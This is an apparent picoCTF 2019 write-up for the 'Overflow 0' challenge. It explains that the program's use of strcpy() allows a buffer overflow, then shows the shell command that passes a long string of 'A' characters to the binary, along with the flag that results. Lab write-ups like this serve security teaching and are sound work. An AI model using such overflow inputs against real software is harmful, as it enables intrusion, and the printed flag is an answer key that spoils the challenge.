 # Overflow 0
#### This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln) and get a flag. Its also found in /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6 on the shell server. [Source](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln.c).

Looking at the source we can see that the program uses the unsafe strcpy() function. We can exploit this by inputting a large arguement
and leaking the flag
```
Supermac30@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{3asY_P3a5y4a888b8e}
```

Flag: picoCTF{3asY_P3a5y4a888b8e}

